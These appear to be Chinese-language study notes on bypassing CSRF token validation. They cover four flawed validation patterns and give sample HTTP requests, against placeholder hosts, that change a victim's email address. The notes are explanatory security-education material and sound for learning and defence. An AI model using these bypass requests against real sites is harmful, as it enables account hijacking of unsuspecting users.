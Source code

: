 
---------------

## CSRF token 的驗證取決於 request 方法
一些 app 在 request 使用 POST 方法時正確驗證 token，但在使用 GET 方法時跳過驗證
- 在這種情況下，攻擊者可以切換到 GET 來繞過驗證，並提供 CSRF 攻擊：

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

---------------


## CSRF token 的驗證取決於 token 的存在
一些 app 在 token 存在的情況下會正確驗證令牌，但如果 token 被省略，則會跳過驗證。

在這種情況下，攻擊者可以刪除包含 token 的整個參數(而不僅僅是它的值）來繞過驗證

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

---------------

## CSRF token 不與 user session 綁定
一些 app 不驗證 token 是否與提出 request 的 user 屬於同一個 sesseion
- 相反，app 維護一個它所發出的 global token pool，並接受出現在該 pool 中的任何 token
- 在這種情況，攻擊者可以使用他們自己的帳號登錄 app，獲得有效的 token，然後在 CSRF 攻擊中把該 token 提供給受害使用者



---------------

## CSRF token 與  non-session cookie 綁定在一起
上一個漏洞的變種，一些 app 確實將 token 與 cookie 綁定，但不是與用於跟踪 session 的同一個 cookie 綁定
- 當 app 採用兩個不同的框架，一個用於 session 處理，一個用於 CSRF 保護，而這兩個框架沒有整合在一起時，就很容易發生這種情況：

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```
